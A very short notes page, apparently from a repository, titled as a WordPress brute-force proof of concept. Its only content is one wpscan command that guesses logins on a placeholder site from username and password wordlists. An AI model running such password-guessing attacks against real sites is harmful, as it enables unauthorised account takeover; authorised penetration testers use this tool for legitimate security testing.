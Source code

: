 # BruteForce utilizing wpscan


#### PoC


```
wpscan --url http://<domain> --usernames <username_wordlist> --passwords <password_wordlist>
```
